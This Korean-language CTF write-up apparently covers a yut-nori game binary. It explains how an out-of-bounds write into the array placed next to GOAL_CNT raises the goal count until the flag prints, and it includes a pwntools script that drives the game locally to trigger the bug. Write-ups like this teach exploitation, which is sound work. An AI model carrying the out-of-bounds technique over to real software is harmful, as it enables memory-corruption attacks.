 그런데, MAP array의 바로 직전에는 GOAL_CNT array가 존재하며, 앞서 언급했듯 `printMap` 함수에서는 `GOAL_CNT[player_turn]`이 5 이상일 경우에 flag를 출력해줍니다.

열거형을 확인해보면, `player_turn`은 값이 1이고, `player`는 값이 3입니다. 이 점을 토대로 생각해보면 oob를 통해서 `GOAL_CNT[player_turn]`을 덮어씌울 수 있고, 즉, 해당 값을 5 이상으로 설정할 수 있게 됩니다.

exploit은 간단합니다.

내 턴에 도를 뽑은 이후 바로 빽개를 뽑으면 (게임 상 낙을 플레이어 마음대로 조절할 수 있으므로 이 상황은 쉽게 만들어낼 수 있습니다.) `GOAL_CNT[player_turn]`가 4로 바뀌고, 정상적인 방법으로 한 번 더 내 말을 골인 시키면 flag가 출력됩니다.

바이너리에 `sleep`이 많기 때문에 아래 스크립트를 실행시키고 잠시 기다리면 flag를 높은 확률로 획득할 수 있습니다.

```py
from pwn import *

e = ELF('./prob')
p = e.process()

DO = bytes("도!!!", 'utf-8')
GAE = bytes("개!!!", 'utf-8')
GIRL = bytes("걸!!!", 'utf-8')
YUT = bytes("윷!!!", 'utf-8')
MO = bytes("모!!!", 'utf-8')
BACK_DO = bytes("빽-도!!!", 'utf-8')
BACK_GAE = bytes("이런거는 뜬겁새로..", 'utf-8')
GOAL = bytes("뽀이뽀이 여러분~ 후두다닥", 'utf-8')

while True:
    buf = p.recvuntil(b'(y/n):').split(b'\n')[-2]
    if buf == DO:
        p.sendline(b'n')
        break
    p.sendline(b'y')

log.success("== [DO] ==")

while True:
    buf = p.recvuntil(b'(y/n):').split(b'\n')[-2]
    if buf == BACK_GAE:
        p.sendline(b'n')
        break
    p.sendline(b'y')

log.success("== [OOB] ==")

while True:
    p.sendlineafter(b'(y/n):', b'n')
    buf = p.recvuntil(b'CPU:')
    if GOAL in buf:
        break

p.interactive()
```
